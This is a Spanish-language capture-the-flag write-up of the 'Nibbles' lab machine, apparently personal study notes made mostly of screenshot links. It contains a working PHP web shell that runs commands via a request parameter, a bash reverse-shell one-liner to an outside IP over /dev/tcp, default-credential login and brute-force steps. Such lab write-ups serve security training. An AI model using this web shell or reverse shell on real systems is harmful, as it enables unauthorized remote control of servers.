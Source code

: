 Lo primero será hacer los reconocimientos de siempre:
![[Mis apuntes/ANEXOS/Pasted image 20221222023355.png]]
![[Mis apuntes/ANEXOS/Pasted image 20221222023359.png]]
![[Mis apuntes/ANEXOS/Pasted image 20221222023402.png]]
![[Mis apuntes/ANEXOS/Pasted image 20221222023407.png]]
Esto es lo que nos encontramos si accedemos al navegador:
![[Mis apuntes/ANEXOS/Pasted image 20221222023414.png]]
Si miramos el código fuente nos encontramos con esto, diciendo que hay un directorio oculto:
![[Mis apuntes/ANEXOS/Pasted image 20221222023420.png]]
Por tanto vamos a acceder a él:
![[Mis apuntes/ANEXOS/Pasted image 20221222023426.png]]
Y tenemos esto que nos dice powered by nibbleblog:
![[Mis apuntes/ANEXOS/Pasted image 20221222023432.png]]
Por tanto vamos a buscar exploits con searchsploit, donde vemos que hay 2:
![[Mis apuntes/ANEXOS/Pasted image 20221222023439.png]]
También podemos hacer fuzzing en esta nueva dirección tanto con wfuzz como con dirb, y veremos como tenemos varias cosas interesantes, entre ellas un apartado de admin y de content, donde posiblemente podamos acceder posteriormente para ejecutar los archivos maliciosos subidos a la máquina víctima:[[Wfuzz]]
![[Mis apuntes/ANEXOS/Pasted image 20221222023446.png]]
Vamos a entrar en admin:
![[Mis apuntes/ANEXOS/Pasted image 20221222023453.png]]
Y en este panel de autenticación podemos probar en utilizar hydra para hacer un ataque de fuerza bruta:[[2 - Hydra - Ataque de Fuerza Bruta contra panel de login web]]
![[Mis apuntes/ANEXOS/Pasted image 20230321130225.png]]
Y nos encuentra muchas credenciales:
![[Mis apuntes/ANEXOS/Pasted image 20230321130247.png]]
Pero si probamos alguna de estas, por ejemplo la password lovely, nos va a dar un error porque esta web cuenta con un sistema de protección contra ataques de fuerza bruta:
![[Mis apuntes/ANEXOS/Pasted image 20230321130347.png]]
Por tanto, tendremos que buscar por internet credenciales por defecto en nibbleblog, veremos como el usuario es admin, y luego probamos en la contraseña el nombre de la máquina (nibbles):
![[Mis apuntes/ANEXOS/Pasted image 20221222023501.png]]
Y ya estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20221222023507.png]]
Tenemos un apartado de subir archivos (my image), por tanto vamos a subir un php malicioso que nos permita ejecutar comandos remotamente:
![[Mis apuntes/ANEXOS/Pasted image 20221222023514.png]]
Creamos el php malicioso: [[0 - Consideraciones Previas#Código PHP malicioso para ganar Reverse Shell]]
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Lo subimos a la web y después accederemos al archivo dentro del directorio content, que también lo encontramos antes con wfuzz; y tras navegar por los directorios encontramos un archivo image.php que intuimos que es el que subimos:
![[Mis apuntes/ANEXOS/Pasted image 20221222023527.png]]
Una vez subido, en la dirección ponemos ?cmd=whoami y se nos ejecutará este comando:
![[Mis apuntes/ANEXOS/Pasted image 20221222023533.png]]
Ahora que tenemos ejecución remota de comandos, podemos mandarnos una reverse shell, por tanto vamos a url encodear el comando de la reverse shell con burpsuite para que nos funcione correctamente:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>&1'
```
![[Mis apuntes/ANEXOS/Pasted image 20221222023541.png]]
Y nos ponemos a escuchar con netcat:
![[Mis apuntes/ANEXOS/Pasted image 20221222023549.png]]
Y pegamos el comando encodeado en el navegador:
![[Mis apuntes/ANEXOS/Pasted image 20221222023554.png]]
Y ya tenemos la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20221222023600.png]]
Y navegando por los directorios obtenemos la flag:
![[Mis apuntes/ANEXOS/Pasted image 20221222023606.png]]
Ahora para escalar privilegios, si ejecutamos el comando sudo -l, vemos que podemos ejecutar un script que se llama monitor.sh:
![[Mis apuntes/ANEXOS/Pasted image 20221222025948.png]]
Pero vemos que para ejecutar este script tenemos que sacarlo del archivo comprimido de donde se encuentra:
![[Mis apuntes/ANEXOS/Pasted image 20221222030154.png]]
Para sacarlo utilizamos el comando unzip:
![[Mis apuntes/ANEXOS/Pasted image 20221222030223.png]]
Y ahora ya podemos acceder a su interior y llegamos al script:
![[Mis apuntes/ANEXOS/Pasted image 20221222030302.png]]
Ahora vamos a añadir este fragmento de código al script para que al ejecutarlo nos lande una shell como root:
![[Mis apuntes/ANEXOS/Pasted image 20230315114911.png]]
Otorgamos permisos de ejecución:
![[Mis apuntes/ANEXOS/Pasted image 20221222032304.png]]
Lo lanzamos y deberíamos ser root:
![[Mis apuntes/ANEXOS/Pasted image 20221222032352.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230315114933.png]]

